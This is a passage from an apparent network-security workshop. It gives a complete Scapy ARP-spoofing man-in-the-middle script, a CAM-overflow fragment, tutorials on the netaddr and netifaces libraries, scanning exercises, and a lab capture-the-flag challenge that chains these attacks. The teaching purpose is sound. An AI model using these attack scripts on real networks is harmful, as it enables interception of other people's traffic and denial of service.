packet_list.append(packet)
return packet_list
def cam_overflow(packet_list):
sendp(packet_list, iface='tap0')
if __name__ == '__main__':
packet_list = generate_packets()
cam_overflow(packet_list)
ARP Spoofing(MiTM)
The hands-on for this is while solving the "Network Hunt" challenge.
Messing with ARP
ARP attacks can potentially mess your LAN configuration. Be very cautious about testing these attacks/scripts in production environment(or in any network for that matter)
Fortunately any potential mis-configuration will be corrected to orignal state in few minutes. If you do happen to mess up your LAN, take a walk, come back several minutes later, pretend that the network was still working when you left.
In common hub networks all traffic can be seen by all hosts whose NICs (network interface card) are in promiscuous mode, but things are a bit different on switched networks.
A switch looks at the data sent to it and tries to only forward packets to its intended recipient based on the MAC address.
Switched networks are more secure and help speed up the network by only sending packets where they need to go.
There are ways around switches though. Using a program like Arpspoof (part of the Dsniff package), we can lie to other machines on the local area network and tell them we have the IP they are looking for, thus funneling their traffic through us.

In the above image, the attacker is telling Alan’s box that he has the IP that corresponds to Brian’s box and vice versa. By doing this the attacker receives all network traffic going between Alan and Brian. Once the attacker has ARP Spoofed his way between two nodes he can sniff the connection. By ARP Spoofing between a computer and the LAN’s gateway an attacker can see all the traffic the computer is sending out and receiving.
Step 1 - IP forwarding
Make sure that the kernel IP forwarding is enabled, otherwise our machine will drop all traffic between the hosts we are trying to sniff, causing a denial of service.(“IP forwarding” is a synonym for “routing.” It is called “kernel IP forwarding” because it is a feature of the Linux kernel.)
>>> import os
>>> os.system('echo 1 > /proc/sys/net/ipv4/ip_forward') # enable kernel IP forwarding
>>> os.system('echo 0 > /proc/sys/net/ipv4/ip_forward') # disable kernel IP forwarding
More on kernel IP forwarding: http://unix.stackexchange.com/questions/14056/what-is-kernel-ip-forwarding
Step 2 - Gather MAC addresses
In order to create our ARP responses, we’ll need the victim and router MAC addresses. We can do this by making ARP requests and returning the result.
def get_mac(IP):
ans, unans = srp(Ether(dst = "ff:ff:ff:ff:ff:ff")/ARP(pdst = IP), timeout = 2, iface = interface, inter = 0.1)
for snd,rcv in ans:
return rcv.sprintf(r"%Ether.src%")
Step 3 - Tricking the Targets
In this step we are tricking eachmachine into thinking that the other party is our machine. ARP reply to each of the targets telling them that we are the other target, placing ourselves in between them.
def trick(gm, vm):
send(ARP(op = 2, pdst = victimIP, psrc = gatewayIP, hwdst= vm))
send(ARP(op = 2, pdst = gatewayIP, psrc = victimIP, hwdst= gm))
Step 4 - Un-doing the attack/ Re-ARPing
It’s not enough to trick the machines, once our attack is over, we need to re-assign the target’s addresses so they know where to send their information properly. If we don’t do this than it will be very obvious that something has happened.
def reARP():
print "\n[*] Restoring Targets..."
victimMAC = get_mac(victimIP)
gatewayMAC = get_mac(gatewayIP)
send(ARP(op = 2, pdst = gatewayIP, psrc = victimIP, hwdst = "ff:ff:ff:ff:ff:ff", hwsrc = victimMAC), count = 7)
send(ARP(op = 2, pdst = victimIP, psrc = gatewayIP, hwdst = "ff:ff:ff:ff:ff:ff", hwsrc = gatewayMAC), count = 7)
disable_ip_forwarding()
print "[*] Shutting Down..."
sys.exit(1)
Final script
from scapy.all import *
import sys
import os
import time
def help_text():
print("\nUsage:\n python hd_tcp_syn.py network_range\n")
sys.exit()
def enable_ip_forwarding():
print "\n[*] Enabling IP Forwarding...\n"
os.system("echo 1 > /proc/sys/net/ipv4/ip_forward")
def disable_ip_forwarding():
print "[*] Disabling IP Forwarding..."
os.system("echo 0 > /proc/sys/net/ipv4/ip_forward")
def get_mac(IP):
conf.verb = 0
ans, unans = srp(Ether(dst = "ff:ff:ff:ff:ff:ff")/ARP(pdst = IP), timeout = 2, iface = interface, inter = 0.1)
for snd,rcv in ans:
return rcv.sprintf(r"%Ether.src%")
def reARP():
print "\n[*] Restoring Targets..."
victimMAC = get_mac(victimIP)
gatewayMAC = get_mac(gatewayIP)
send(ARP(op = 2, pdst = gatewayIP, psrc = victimIP, hwdst = "ff:ff:ff:ff:ff:ff", hwsrc = victimMAC), count = 7)
send(ARP(op = 2, pdst = victimIP, psrc = gatewayIP, hwdst = "ff:ff:ff:ff:ff:ff", hwsrc = gatewayMAC), count = 7)
disable_ip_forwarding()
print "[*] Shutting Down..."
sys.exit(1)
def trick(gm, vm):
send(ARP(op = 2, pdst = victimIP, psrc = gatewayIP, hwdst= vm))
send(ARP(op = 2, pdst = gatewayIP, psrc = victimIP, hwdst= gm))
def mitm():
try:
victimMAC = get_mac(victimIP)
except Exception:
disable_ip_forwarding()
print "[!] Couldn't Find Victim MAC Address"
print "[!] Exiting..."
sys.exit(1)
try:
gatewayMAC = get_mac(gatewayIP)
except Exception:
disable_ip_forwarding()
print "[!] Couldn't Find Gateway MAC Address"
print "[!] Exiting..."
sys.exit(1)
print "[*] Poisoning Targets..."
while 1:
try:
trick(gatewayMAC, victimMAC)
time.sleep(1.5)
except KeyboardInterrupt:
reARP()
break
if __name__ == '__main__':
if len(sys.argv) < 2:
help_text()
interface = sys.argv[1]
victimIP = sys.argv[2]
gatewayIP = sys.argv[3]
enable_ip_forwarding()
mitm()
Libraries
netaddr
A Python library for representing and manipulating network addresses.
Features
Layer 3 addresses
- IPv4 and IPv6 addresses, subnets, masks, prefixes
- Iterating, slicing, sorting, summarizing and classifying IP networks
- Dealing with various ranges formats (CIDR, arbitrary ranges and globs, nmap)
- Set based operations (unions, intersections etc) over IP addresses and subnets
- Parsing a large variety of different formats and notations
- Looking up IANA IP block information
- Generating DNS reverse lookups
- Supernetting and subnetting
Layer 2 addresses
- Representation and manipulation MAC addresses and EUI-64 identifiers
- Looking up IEEE organisational information (OUI, IAB)
- Generating derived IPv6 addresses
Installation
Install the latest netaddr from PIP
pip install netaddr
Importing netaddr
from netaddr import *
Importing modules
Importing this way is not optimal and leads to name clashes.
In your own code, you should be explicit about the classes, functions and constants you import to avoid name clashes.
Layer 3 addressing(IP)
IPAddress
IPAddress object represents a single IP address.
>>> from netaddr import IPAddress
>>>
>>> ip = IPAddress('192.21.8.11')
>>> ip.version
4
>>> dir(ip)
[ ... Snipped... 'bin', 'bits', 'format', 'info', 'ipv4', 'ipv6',
'is_hostmask', 'is_ipv4_compat', 'is_ipv4_mapped', 'is_link_local',
'is_loopback', 'is_multicast', 'is_netmask', 'is_private', 'is_reserved',
'is_unicast', 'key', 'netmask_bits', 'packed', 'reverse_dns', 'sort_key',
'value', 'version', 'words']
>>>
There are methods to handle coverting an IP adress into binary or bits, split an IP, pack an
>>> ip.bin
'0b11000000000101010000100000001011'
>>>
>>> ip.bits()
'11000000.00010101.00001000.00001011'
>>>
>>> ip.words
(192, 21, 8, 11)
>>> ip.packed
'\xc0\x15\x08\x0b'
There are methods to check if the type of IP address(class, scope, type)
>>> ip.version
6
>>> ip.is_unicast()
True
>>>
>>> ip.is_link_local()
True
IPNetwork
IPNetwork objects are used to represent subnets, networks or VLANs that accept CIDR prefixes and netmasks.
>>> from netaddr import IPNetwork
>>>
>>> ip_range = IPNetwork('192.241.21.6/24')
>>>
>>> dir(ip_range)
[ ... snipped ... 'broadcast', 'cidr', 'first', 'hostmask', 'info',
'ip', 'ipv4', 'ipv6', 'is_ipv4_compat', 'is_ipv4_mapped', 'is_link_local',
'is_loopback', 'is_multicast', 'is_private', 'is_reserved', 'is_unicast',
'iter_hosts', 'key', 'last', 'netmask', 'network', 'next', 'prefixlen',
'previous', 'size', 'sort_key', 'subnet', 'supernet', 'value', 'version']
>>>
There are a bunch of methods associated with IPNetwork to understand the network defined.
>>> ip_range.network
IPAddress('192.241.21.0')
>>>
>>> ip_range.hostmask
IPAddress('0.0.0.255')
>>>
>>> ip_range.netmask
IPAddress('255.255.255.0')
>>>
>>> ip_range.broadcast
IPAddress('192.241.21.255')
>>>
>>> ip_range.size
256
You can use a simple for loop to iterate over the list of IP addresses in the network range defined.
>>> for i in ip_range:
... print i
...
192.241.21.0
192.241.21.1
... snipped ...
192.241.21.255
List operations on IPNetwork object
If you treat an IPNetwork object as if it were a standard Python list object it will give you access to a list of individual IP address objects also various standard python list methods.
>>> ip_range = IPNetwork('192.0.2.16/29')
>>>
>>> ip_range_list = list(ip_range)
>>>
>>> len(ip_range_list)
8
>>> ip_range_list
[IPAddress('192.0.2.16'), IPAddress('192.0.2.17'), ...snipped... IPAddress('192.0.2.23')]
>>>
>>> ip_range_list[6] # indexing
IPAddress('192.0.2.22')
>>>
>>> ip_range_list[2:5
] # slicing
[IPAddress('192.0.2.18'), IPAddress('192.0.2.19'), IPAddress('192.0.2.20')]
IPRange
You can represent an arbitrary IP address range using a lower and upper bound address in the form of an IPRange object.
>>> ip_range = IPRange('192.168.1.0', '192.168.1.20')
>>>
>>> for i in ip_range:
... print i
...
192.168.1.0
... snipped ...
192.168.1.19
192.168.1.20
IP sets
You can specify either IP addresses and networks as strings. Alternatively, you can use IPAddress, IPNetwork, IPRange or other IPSet objects.
>>> IPSet(['192.0.2.0'])
IPSet(['192.0.2.0/32'])
>>>
>>> IPSet([IPAddress('192.0.2.0')])
IPSet(['192.0.2.0/32'])
>>>
>>> IPSet([IPNetwork('192.0.2.0/24')])
IPSet(['192.0.2.0/24'])
>>>
>>> IPSet(IPRange("10.0.0.0", "10.0.1.31"))
IPSet(['10.0.0.0/24', '10.0.1.0/27'])
You can interate over all the IP addresses that are members of the IP set.
>>> for ip in IPSet(['192.0.2.0/28']):
... print ip
192.0.2.0
192.0.2.1
... snipped ...
192.168.2.15
Adding and removing set elements
>>> from netaddr import IPSet
>>>
>>> s1 = IPSet()
>>>
>>> s1.add('192.168.1.0/30')
>>> s1.size
4
>>>
>>> '192.168.1.3' in s1
True
>>>
>>> s1.remove('192.168.1.3')
>>> s1.size
3
You can do all sorts of set operations on IPSets
>>> scan1 = IPSet(['192.168.1.0/30'])
>>>
>>> scan1
IPSet(['192.168.1.0/30'])
>>>
>>> scan1.size
4
>>>
>>> scan2 = IPSet(['192.168.1.0/31'])
>>>
>>> scan2.size
2
>>>
>>> scan1 | scan2
IPSet(['192.168.1.0/30'])
>>>
>>> scan1 & scan2
IPSet(['192.168.1.0/31'])
>>>
>>> scan1 ^ scan2
IPSet(['192.168.1.2/31'])
Layer 2 addressing(MAC)
Instances of the EUI class are used to represent MAC addresses.
>>> mac = EUI('ec:f4:bb:87:2d:0c')
There are methods to print out common properties of an address
>>> dir(mac)
... snipped ... 'bin', 'bits', 'dialect', 'ei', 'eui64', 'iab',
'info', 'ipv6', 'ipv6_link_local', 'is_iab', 'modified_eui64', 'oui',
'packed', 'value', 'version', 'words']
>>>
>>> str(mac), str(mac.ei), str(mac.oui), str(mac.version)
('EC-F4-BB-87-2D-0C', '87-2D-0C', 'EC-F4-BB', '48')
There are methods to provide info on OUI and other organizational info.
>>> mac.info
{'OUI': {'address': ['one dell way',
'MS:RR5-45',
'Round rock Texas 78682',
'UNITED STATES'],
'idx': 15529147,
'offset': 3429092,
'org': 'Dell Inc',
'oui': 'EC-F4-BB',
'size': 141}}
>>>
>>> oui = mac.oui
>>>
>>> dir(oui)
[ ... snipped ... 'records', 'reg_count', 'registration']
>>>
>>> oui.registration().org
'Dell Inc'
>>>
>>> oui.registration().address
['one dell way', 'MS:RR5-45', 'Round rock Texas 78682', 'UNITED STATES']
Examples of netaddr usage in open source projects
For more examples of various netaddr modules usage in open source projects: http://www.programcreek.com/python/index/2955/netaddr
netifaces
- A portable third-party library in Python to enumerate network interfaces on local machine.
- Historically it has been difficult to straightforwardly get the network address(es) of the machine on which your Python scripts are running without compromising the portability of your script.
netifacestakes care of enumerating interfaces, network addresses and also preserves the portability(works on all *nix systems atleast).
Installation
netifaces needs python extension modules. In case you haven’t already, you should install python-dev package.
$ sudo apt-get install python-dev
You can install netifaces using PIP.
$ pip install netifaces
Basic operations
You can take a look at all the modules that are part of netifaces
>>> import netifaces
>>>
>>> dir(netifaces)
[ ... snipped ...
'address_families', 'gateways', 'ifaddresses', 'interfaces', 'version']
>>>
Getting a list of all the network interface identifiers on the machine.
>>> netifaces.interfaces()
['lo', 'eth0', 'wlan0', 'eth3', 'vboxnet0']
You can ask for the addresses of a particular interface
>>> import netifaces
>>> from pprint import pprint
>>>
>>> pprint(netifaces.ifaddresses('eth3'))
{2: [{'addr': '192.168.1.100',
'broadcast': '192.168.1.255',
'netmask': '255.255.255.0'}],
10: [{'addr': 'fe80::364b:50ff:feb7:ef1d%eth3',
'netmask': 'ffff:ffff:ffff:ffff::/64'}],
17: [{'addr': '34:4b:50:b7:ef:1d', 'broadcast': 'ff:ff:ff:ff:ff:ff'}]}
pprint
- pprint contains a “pretty printer” for producing aesthetically pleasing representations of your data structures
- The formatter produces representations of data structures that can be parsed correctly by the interpreter, and are also easy for a human to read
You can also get list of all the gateways
>>> netifaces.gateways()
{'default': {2: ('192.168.1.1', 'eth3')}, 2: [('192.168.1.1', 'eth3', True)]}
Getting list of IPv4 addresses excluding loopback and virtualbox adapters
>>> for iface in netifaces.interfaces():
... if iface == 'lo' or iface.startswith('vbox'):
... continue
... iface_details = netifaces.ifaddresses(iface)
... if iface_details.has_key(netifaces.AF_INET):
... print iface_details[netifaces.AF_INET]
...
[{'broadcast': '192.168.1.255', 'netmask': '255.255.255.0', 'addr': '192.168.1.100'}]
[{'broadcast': '192.168.1.255', 'netmask': '255.255.255.0', 'addr': '192.168.1.101'}]
Examples of netifaces usage in open source projects
For more examples of netifaces usage in open source projects: http://www.programcreek.com/python/example/81895/netifaces.interfaces
Exercises
Misc Exercises
Exercise 1
Network sweeping
- Write a script to perform network sweeping i.e. given a IP address range, find all the machines that are alive
- Use any of the host discovery techniques that have been discussed but ARP tends to be neat and faster on local networks
$ sudo python hd_tcp_syn.py 192.168.56.99-110
192.168.56.102 is alive
192.168.56.103 is alive
192.168.56.107 is alive
Exercise 2
Port scanning
- Write a script to perform port scanning i.e. given an IP address, find status of ports on the machine(atleast find any open ports under 1024)
- Use any of the port scanning techniques that have been discussed
$ sudo python tcp_syn_scan.py 192.168.56.107
'ftp_data RA'
'21 RA
'ssh SA'
'telnet RA'
'24 RA'
Exercise 3
IP ID pattern finder
- Write a script that takes a target IP and checks for patterns in the IP ID generation
- Basic checks include: if the IP IDs generated are: all zeros, are all constant, are all randomized or if they are incremental.
Example:
$ sudo python ipidseq.py 192.168.56.101
Target => 192.168.56.101
[+] Sending packets to the target
[+] Analyzing the IPID pattern
[*] IPID generation pattern on scanme.nmap.org is randomized
Python/Scapy tips:
- Use
sr1for sending packet and recieving first response - Python has in-built function
all()that comes handy when comparing elements in list. Looking at below examples, think about how you can use it to do other comparisions.
>>> lis = [0,0,0,0]
>>> all(v == 0 for v in lis) # Checking if all elements in list are zero
True
>>> lis = [1,4,6,9,22,65,98,354]
>>>
>>> all(x<y for x, y in zip(lis, lis[1:])) # Checking if the elements are in increasing order
True
Exercise 4
IP ID scanner
- Your might have found a potential ‘zombie’ from the previous scan
- Write a script that takes a
zombie_ip,victim_ip.victim_portPerforms a ipid scan (Details in the notes)
For more detailed discussion: Idle scan
Example:
$ sudo python ipidscanner.py 192.168.56.102 192.168.56.103 4444
[+] Sending syn-ack to zombie
[+] Recording initial IPID
[+] Sending spoofed syn to victim
[+] Sending syn-ack to zombie
[+] Recording final IPID
[*] Initial IPID of zombie: 14
[*] Final IPID of zombie: 16
The port 4444 on 192.168.56.103 is open
Python/Scapy tips:
- Use
sr1()orsend()to send packets - Send
sr1()and other packet sending functions take an extra argument verbose, setverbose=0to avoid scapy output
Solution
idle scan consists of three steps that are repeated for each port:
- Probe the zombie’s IPID and record it. (Send a syn-ack to zombie, record ipid in response)
- Forge a SYN packet with zombie IP as source and victim IP, victim port as destination.
- Probe the zombie’s IP ID again. The target port state is then determined by comparing this new IP ID with the one recorded in step 1.
- At this point, if the zombie’s IPID increased by one that the zombie hasn’t sent out any packets, except for its reply to the attacker’s probe. THis is an indication that the target port might be closed on victim.
- If the zombie’s IPID increased by two, it means the zombie sent out a packet between the two probes. This is an indication that the target port is open on the victim.
- If zombie IPIP increases by more than two, it usually indicates a bad zombie host. It might not have predictable IPID numbers, or might be engaged in communication unrelated to the idle scan.
Exercise 5
Packet hunting
- You are given a PCAP file - boston2016, this PCAP is suspected to be having covert channel activity. (someone trying to transfer data in a packet using unsual methods)
- Your task is to analyze this packet capture and find out the hidden data.
Python/Scapy tips:
rdpcapto read a pcappacket[protocol]to extract protocol specific contentpacket[protocol].fieldto extract fieldformat(text,'04x')is how you format into proper hex format in Python.- Use
joinmethod to join elements of a list".".join([192, 168, 99, 24]) –> 192.168.99.24
Solution hints I:
This is not a packet analysis or CTF class so I’ll describe the solution in plain terms here, try to codify it using Scapy.
- The covert activity might be happening through UDP checksums.
Solution hints II:
Spoilers ahead
- The data is being exfiltrated by one party through checksums.
- To be specific, UDP checksums in DNS queries is where the data is. - Extract the checksums from DNS queries.
- You have to read the checksums in “0x:(hex) format first. format(text,'0x')
- Decode the hex checksums into ascii and that’s the exfiltrated data.
Exercise 6
Packet analysis
Given a pcap file, find all the unique hosts in that pcap file and try and determine their OS.
$ python list_scan.py evidence.pcap
List of all the hosts and possible OS
-------------------------------------
192.168.56.0 - Linux
45.65.29.124 - Windows
198.56.101.2 - Linux
Exercise 7
Dummy network scanner
A client wants you to do a security audit on their network. Client provided you with a network range to scan and set of IP addresses to exclude from scan.
Before you run an actual network scan, write a script that lists all the IP addresses that falls under scan(similar to Nmap list scan). (Network range provided by client minus IP addresses to be excluded)
Example:
$ python list_scan.py --range 192.168.56.1/30 --exclude 192.168.56.2
Range => IPSet(['192.168.56.1/30'])
Exclude => IPSet(['192.168.56.2/32'])
192.168.56.0
192.168.56.1
192.168.56.3
Hints:
netaddrlibrary deals with Layer 3 addressingnetaddr.IPSethas a remove method to remove elements
Exercise 8
Local network interface enumeration.
- Use a python library to list all the interfaces on your machine, find as much as you can(interface labels, addressing etc).
- When you print the output, make sure it’s easily readable.
Hints:
netifaceshelps enumerate local interfacesstring .formatmethod and pprint helps you print stuff beautifully in Python
Network Hunt
Let’s go Network hunting!
Challenge Overview
Terminal-based game in which you will use common network attack vectors and penetration testing methods to analyze and compromise a virtual network.
Involves Network Security challenges designed to educate users on packet manipulation and common network attacks.
The whole challenge happens over sort of a software defined network(SDN).
Originally created by James Sullivan (MIT License), modified by us for the workshop.
Network Hunt
- The network hunt is a simple Software Defined Network
- The network is completely defined by handcrafted packets using Scapy/Python which simulates a typical network setup.
The Goal
There is an FTP server some where on the network containing a document:
- Locate the FTP server
- Connect to the service &
- Retrieve the secret file!
Concepts
- Bash terminal-fu
- Packet capture and manipulation in Scapy
- Packet analysis in Wireshark
- Router modes of operation
- Network topography, gateways
- Basic telnet/nc commands
Hints
- You may need to find a way to see all of the traffic on the network
- Other clients on the network might give you useful clues, if you can coerce them
- The target will most likely be isolated from the immediate local network, and will have some preferred clients
TASKS
TASK 1
- Run the script & find the details about the new interface(ipconfig, route).
TASK 2
Understand the network.
- Is there any traffic on the network?
- Are there devices connected to the network? Perform a network sweep?
TASK 3
How to gain access to traffic beyond a switch?
Think about exploiting the way layer 2 switches operate?
Scapy tips:
RandMAC()- Generates random MAC addresses.RandIP()- Generates random IP addresses.
TASK 4
Were you able to gain access to traffic beyond switch? If so, is there something interesting about the traffic? Is there some strange pattern in the traffic?
Hint: Port knocking. (Reference docs has more details on what port knocking is)
TASK 5
Did you manage to get access to some service on some machine? try some standard commands for that service to get more hints.
TASK 6
The target is not in the same sub-network and also accepts connections from only specific machines.How do you compromise the machine?
Hint: ARP MitM
TASK 7
Retrive the payload using standard FTP commands.